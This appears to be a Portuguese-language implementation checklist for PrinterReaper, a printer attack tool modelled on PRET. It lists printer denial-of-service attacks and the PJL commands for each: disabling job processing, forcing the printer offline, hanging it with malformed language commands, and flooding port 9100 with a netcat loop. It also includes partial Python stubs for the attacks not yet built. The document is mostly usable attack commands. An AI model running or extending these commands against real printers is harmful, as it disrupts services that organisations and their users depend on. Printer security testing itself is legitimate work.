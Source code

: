 #### 1.1 Document Processing DoS
**Descrição**: Desabilitar processamento de documentos  
**Status**: ✅ **IMPLEMENTADO**  
**Comando PRET**: `disable`  
**Comando PrinterReaper**: `disable`  
**PJL Underlying**: `@PJL SET JOBMEDIA=OFF`

**Teste**:
```
disable
```

#### 1.2 Offline Attack
**Descrição**: Colocar impressora offline com mensagem  
**Status**: ✅ **IMPLEMENTADO**  
**Comando PRET**: `offline <message>`  
**Comando PrinterReaper**: `offline <message>`  
**PJL Underlying**: `@PJL OFFLINE "message"`

**Teste**:
```
offline "Printer Under Maintenance"
```

#### 1.3 Hang Attack (FALTANDO)
**Descrição**: Travar impressora com comandos malformados  
**Status**: ❌ **NÃO IMPLEMENTADO**  
**Comando PRET**: `hang`  
**PJL Underlying**: Comandos PJL específicos que causam travamento

**Implementação Necessária**:
```python
def do_hang(self, arg):
    """Hang the printer with malformed commands"""
    output().warning("Attempting to hang printer...")
    # Send malformed PJL commands that cause hang
    self.cmd("@PJL SET LANGUAGE=INVALID")
    self.cmd("@PJL ENTER LANGUAGE=INVALID")
    # Additional hang vectors
```

#### 1.4 DoS via Transmission Channel (FALTANDO)
**Descrição**: DoS via múltiplas conexões TCP  
**Status**: ❌ **NÃO IMPLEMENTADO**  
**Teste**: `while true; do nc printer 9100; done`

**Implementação Necessária**:
```python
def do_dos_channel(self, arg):
    """Denial of service via transmission channel flooding"""
    count = conv().int(arg) or 100
    output().warning(f"Flooding {count} connections...")
    # Implementation would open/close multiple connections rapidly
```

---
